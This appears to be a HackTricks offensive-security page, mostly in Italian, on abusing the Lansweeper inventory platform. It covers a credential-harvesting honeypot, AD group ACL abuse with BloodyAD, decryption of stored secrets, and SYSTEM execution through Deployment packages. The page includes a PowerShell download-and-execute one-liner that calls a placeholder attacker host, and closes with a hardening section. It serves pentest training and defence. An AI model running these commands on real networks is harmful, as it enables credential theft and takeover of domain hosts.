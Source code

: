 # Lansweeper Abuse: Credential Harvesting, Secrets Decryption, and Deployment RCE

{{#include ../../banners/hacktricks-training.md}}

Lansweeper è una piattaforma di discovery e inventory degli asset IT comunemente distribuita su Windows e integrata con Active Directory. Le credenziali configurate in Lansweeper sono usate dai suoi scanning engines per autenticarsi agli asset tramite protocolli come SSH, SMB/WMI e WinRM. Configurazioni errate permettono frequentemente:

- Intercettazione delle credenziali reindirizzando un Scanning Target verso un host controllato dall'attaccante (honeypot)
- Abuso delle AD ACLs esposte dai gruppi legati a Lansweeper per ottenere accesso remoto
- Decrittazione on-host dei secrets configurati in Lansweeper (connection strings e stored scanning credentials)
- Esecuzione di codice sugli endpoint gestiti tramite la feature Deployment (spesso eseguita come SYSTEM)

Questa pagina riassume workflow pratici dell'attaccante e comandi per abusare di questi comportamenti durante gli engagement.

## 1) Harvest scanning credentials via honeypot (SSH example)

Idea: crea un Scanning Target che punti al tuo host e associa le Scanning Credentials esistenti ad esso. Quando lo scan viene eseguito, Lansweeper tenterà di autenticarsi con quelle credenziali e il tuo honeypot le catturerà.

Steps overview (web UI):
- Scanning → Scanning Targets → Add Scanning Target
- Type: IP Range (or Single IP) = your VPN IP
- Configure SSH port to something reachable (e.g., 2022 if 22 is blocked)
- Disattiva lo schedule e imposta l'esecuzione manuale
- Scanning → Scanning Credentials → assicurati che esistano credenziali Linux/SSH; mappale sul nuovo target (abilita tutte quelle necessarie)
- Clicca “Scan now” sul target
- Run an SSH honeypot and retrieve the attempted username/password

Example with sshesame:
```yaml
# sshesame.conf
server:
listen_address: 10.10.14.79:2022
```

```bash
# Install and run
sudo apt install -y sshesame
sshesame --config sshesame.conf
# Expect client banner similar to RebexSSH and cleartext creds
# authentication for user "svc_inventory_lnx" with password "<password>" accepted
# connection with client version "SSH-2.0-RebexSSH_5.0.x" established
```
Validare le credenziali catturate contro i servizi del DC:
```bash
# SMB/LDAP/WinRM checks (NetExec)
netexec smb   inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec ldap  inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
Note
- Funziona in modo simile per altri protocolli quando puoi forzare lo scanner verso il tuo listener (SMB/WinRM honeypots, ecc.). SSH è spesso la soluzione più semplice.
- Molti scanner si identificano con client banners distinti (e.g., RebexSSH) e tenteranno comandi benigni (uname, whoami, ecc.).

## 2) AD ACL abuse: ottenere accesso remoto aggiungendosi a un app-admin group

Usa BloodHound per enumerare i diritti effettivi dall'account compromesso. Una scoperta comune è un gruppo specifico per scanner o app (e.g., “Lansweeper Discovery”) che possiede GenericAll su un gruppo privilegiato (e.g., “Lansweeper Admins”). Se il gruppo privilegiato è inoltre membro di “Remote Management Users”, WinRM diventa disponibile una volta che ci aggiungiamo.

Esempi di raccolta:
```bash
# NetExec collection with LDAP
netexec ldap inventory.sweep.vl -u svc_inventory_lnx -p '<password>' --bloodhound -c All --dns-server <DC_IP>

# RustHound-CE collection (zip for BH CE import)
rusthound-ce --domain sweep.vl -u svc_inventory_lnx -p '<password>' -c All --zip
```
Sfruttare GenericAll su un gruppo con BloodyAD (Linux):
```bash
# Add our user into the target group
bloodyAD --host inventory.sweep.vl -d sweep.vl -u svc_inventory_lnx -p '<password>' \
add groupMember "Lansweeper Admins" svc_inventory_lnx

# Confirm WinRM access if the group grants it
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
Poi ottieni una shell interattiva:
```bash
evil-winrm -i inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
Suggerimento: le operazioni Kerberos sono sensibili al tempo. Se ricevi KRB_AP_ERR_SKEW, sincronizza l'orologio con il DC prima:
```bash
sudo ntpdate <dc-fqdn-or-ip>   # or rdate -n <dc-ip>
```
## 3) Decriptare i segreti configurati da Lansweeper sull'host

Sul server Lansweeper, il sito ASP.NET di solito memorizza una connection string crittografata e una chiave simmetrica utilizzata dall'applicazione. Con accesso locale adeguato puoi decriptare la connection string del DB e quindi estrarre le credenziali di scansione memorizzate.

Posizioni tipiche:
- Web config: `C:\Program Files (x86)\Lansweeper\Website\web.config`
- `<connectionStrings configProtectionProvider="DataProtectionConfigurationProvider">` … `<EncryptedData>…`
- Application key: `C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`

Usa SharpLansweeperDecrypt per automatizzare la decriptazione e l'estrazione delle credenziali memorizzate:
```powershell
# From a WinRM session or interactive shell on the Lansweeper host
# PowerShell variant
Upload-File .\LansweeperDecrypt.ps1 C:\ProgramData\LansweeperDecrypt.ps1   # depending on your shell
powershell -ExecutionPolicy Bypass -File C:\ProgramData\LansweeperDecrypt.ps1
# Tool will:
#  - Decrypt connectionStrings from web.config
#  - Connect to Lansweeper DB
#  - Decrypt stored scanning credentials and print them in cleartext
```
L'output previsto include dettagli di connessione DB e credenziali di scansione in chiaro, come account Windows e Linux usati in tutto l'ambiente. Questi spesso hanno privilegi locali elevati sugli host di dominio:
```text
Inventory Windows  SWEEP\svc_inventory_win  <StrongPassword!>
Inventory Linux    svc_inventory_lnx        <StrongPassword!>
```
Usa creds di scansione Windows recuperate per accesso privilegiato:
```bash
netexec winrm inventory.sweep.vl -u svc_inventory_win -p '<StrongPassword!>'
# Typically local admin on the Lansweeper-managed host; often Administrators on DCs/servers
```
## 4) Lansweeper Deployment → SYSTEM RCE

Come membro del gruppo “Lansweeper Admins”, l'interfaccia web espone Deployment e Configuration. Sotto Deployment → Deployment packages, puoi creare pacchetti che eseguono comandi arbitrari sugli asset target. L'esecuzione è svolta dal Lansweeper service con privilegi elevati, permettendo l'esecuzione di codice come NT AUTHORITY\SYSTEM sull'host selezionato.

High-level steps:
- Crea un nuovo Deployment package che esegue un one-liner PowerShell o cmd (reverse shell, add-user, etc.).
- Seleziona l'asset desiderato (es. il DC/host dove gira Lansweeper) e clicca Deploy/Run now.
- Ottieni la shell come SYSTEM.

Example payloads (PowerShell):
```powershell
# Simple test
powershell -nop -w hidden -c "whoami > C:\Windows\Temp\ls_whoami.txt"

# Reverse shell example (adapt to your listener)
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker>/rs.ps1')"
```
OPSEC
- Le azioni di Deployment sono rumorose e lasciano tracce in Lansweeper e nei registri eventi di Windows. Usare con giudizio.

## Rilevamento e hardening

- Restringere o rimuovere le enumerazioni SMB anonime. Monitorare RID cycling e accessi anomali alle condivisioni di Lansweeper.
- Controlli di egress: bloccare o limitare strettamente le connessioni outbound SSH/SMB/WinRM dagli host scanner. Generare alert su porte non standard (es., 2022) e banner client insoliti come Rebex.
- Proteggere `Website\\web.config` e `Key\\Encryption.txt`. Esternalizzare i segreti in un vault e ruotarli in caso di esposizione. Considerare service account con privilegi minimi e gMSA quando possibile.
- Monitoraggio AD: generare alert su modifiche ai gruppi legati a Lansweeper (es., “Lansweeper Admins”, “Remote Management Users”) e su cambiamenti di ACL che concedono GenericAll/Write membership su gruppi privilegiati.
- Audit delle creazioni/modifiche/esecuzioni dei Deployment package; generare alert su package che avviano cmd.exe/powershell.exe o connessioni outbound non previste.

## Argomenti correlati
- SMB/LSA/SAMR enumeration e RID cycling
- Kerberos password spraying e considerazioni sul clock skew
- Analisi dei path in BloodHound dei gruppi application-admin
- Uso di WinRM e lateral movement

## References
- [HTB: Sweep — Abusing Lansweeper Scanning, AD ACLs, and Secrets to Own a DC (0xdf)](https://0xdf.gitlab.io/2025/08/14/htb-sweep.html)
- [sshesame (SSH honeypot)](https://github.com/jaksi/sshesame)
- [SharpLansweeperDecrypt](https://github.com/Yeeb1/SharpLansweeperDecrypt)
- [BloodyAD](https://github.com/CravateRouge/bloodyAD)
- [BloodHound CE](https://github.com/SpecterOps/BloodHound)

{{#include ../../banners/hacktricks-training.md}}
